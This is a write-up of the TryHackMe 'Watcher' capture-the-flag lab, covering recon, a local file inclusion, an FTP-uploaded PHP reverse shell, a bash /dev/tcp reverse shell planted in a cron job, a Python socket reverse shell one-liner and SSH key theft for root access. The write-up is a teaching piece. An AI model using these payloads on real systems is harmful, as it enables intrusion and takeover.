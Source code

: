 ```yaml
---
layout: post
title: Watcher Write-Up
comments: true
---
```

The Watcher is a medium difficulty box on TryHackMe, and my first write-up. I learned a lot from completing this box and highly reccomend any beginner or intermediate hackers complete this box. Feel free to email me about any questions or recommendations.

When approching a machine my first step is to use a map to see what is running on the server.
`nmap -sV 10.10.130.17`
When this command is run the first thing I notice is the http server and secondly I see the ftp server.

Let's take a look at the http server. I want to take a look at the website. This website looks like a blog. First, I looked at the URL to see that this blog uses php to access posts, we will come back to this later.
Next, I used gobuster to fuzz the directories of the machine (you can also use dirbuster or ffuf).

`gobuster dir -u 10.10.130.17 -w /usr/share/wordlists/dirb/common.txt`

After this command is run, we see there is a robots.txt. when looking at 10.10.130.17/robots.txt, we find flag_1 and secret_file_do_not_read.txt. Congrats, we have our first flag!

Now let's try and open secret_file_do_not_read.txt. We don't have permission to open this file, but maybe we can bypass this.
Let's open a blog post again. In the url of the posts we have::
"http://10.10.130.17/post.php?post=&lt;postname>.php".

The first thing I do when I see a php query is try to view /etc/passwd as a test.

"http://10.10.130.17/post.php?post=/etc/passwd"

From this we can see the file, there are two users that I see: Mat and Toby.
Now that we know we can view files with this, lets open the secret file.

"http://10.10.130.17/post.php?post=secret_file_do_not_read.txt"

In this file there is a note to Mat about ftp credentials.
When we sign into the ftp server we see two files: a directory called files and flag_2.txt

We can copy the flag to our local machine with the get command and then view the flag on our local machine.

Now that we have the ability to ftp into the machine, we can spawn a reverse shell with a php script. I am using the one here: 
[php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) 

To make this script work we need to change the IP and port.

In this screenshot I changed the IP to my ip address and port to 4444.

Next we upload the script, sign into the ftp server once again, and cd into the files directory. Upload the php file you just modified using 

`put <path to file on local machine>`

Once it's uploaded we need to find where the file was saved. On the note to Mat, Will says the files are saved in /home/ftpuser/ftp/files. Let's go to the file we uploaded using the php url we used to see this note.

We see an error in the code, which in our case is good. This shows our code is uploaded.

Next we need to listen for the shell to spawn using `nc -lvnp 4444`

Now we see that we have a shell!
To make this shell look a little nicer we can run
```
/usr/bin/script -qc /bin/bash /dev/null`
control + z to put the shell in the background
stty raw -echo
fg
export TERM=xterm
```

Lets try to find our third flag
`find / -name flag_3.txt 2>/dev/null`	

If we run whoami we can see that we are www-data.

Next, lets see what commands we can run with sudo with "sudo -l"
After running this command we see we can run any command with the user, Toby.
We can use this to see flag_4.txt in Toby's home directory with "sudo -u toby cat /home/toby/flag_4.txt"

In the same directory there is an note.txt, view it with the same command we just did but with note.txt. In the file it talks about cron jobs.

To view cron tabs you can run `cat /etc/crontab`

We can edit the job in /home/toby/jobs/cow.sh
and add this line
`bash -i >& /dev/tcp/10.8.98.192/4444 0>&1`
to create a reverse shell to intercept with nc

Once we have the shell we can cat out flag_5.txt and stabalize the shell as we did earlier 

Next, run in the scripts directory with another nc session listening 
`echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.8.108.69',9898));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);" > cmd.py`

Here you can get the next flag in Will's home directory

After some looking around with the Will user I found a .b64 file in /opt/backups/key.b64, With this file I used `base64 -d key.b64 > id_rsa` and downloaded it with `python3 -m http.server`

Finally we can ssh `ssh -i id_rsa root@10.10.193.197`
and cat out flag_7.txt.

Congratulations, flag 7 completed!
